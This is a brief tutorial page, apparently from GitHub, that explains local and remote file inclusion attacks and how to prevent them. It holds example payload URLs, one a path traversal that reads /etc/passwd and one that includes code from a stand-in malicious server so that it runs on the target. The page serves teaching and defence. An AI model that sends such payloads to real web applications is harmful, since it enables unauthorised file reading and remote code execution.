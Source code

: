 # File Inclusion Attacks

## Overview

File inclusion vulnerabilities occur when web applications allow the inclusion of external files without proper validation. These can be exploited to read sensitive files or execute malicious code on the server.

---

## Types of File Inclusion Attacks

### 1. Local File Inclusion (LFI)

- Reads local files on the server
- Often used to access sensitive files like configuration or password files
- Example payload: 
- http://targetsite.com/vulnerable.php?file=../../etc/passwd

- Attack URL tries to include sensitive server files for reading.

### 2. Remote File Inclusion (RFI)

- Executes malicious remote code hosted on an attacker-controlled server
- Typically involves including a URL pointing to malicious code:
- http://targetsite.com/vulnerable.php?file=http://malicious-server.com/malicious.php

- Allows attacker to execute arbitrary code on the server.

---

## How to Prevent File Inclusion Attacks

- Validate user inputs strictly against a whitelist.
- Avoid passing user input directly to include, require, or similar functions.
- Use fixed file paths or identifiers instead of dynamic paths.
- Disable allow_url_fopen and allow_url_include in PHP configurations.
- Keep web server and scripts updated.

---

## Summary

File inclusion vulnerabilities pose serious security risks. Proper input validation and server configuration are critical in preventing exploits.

---


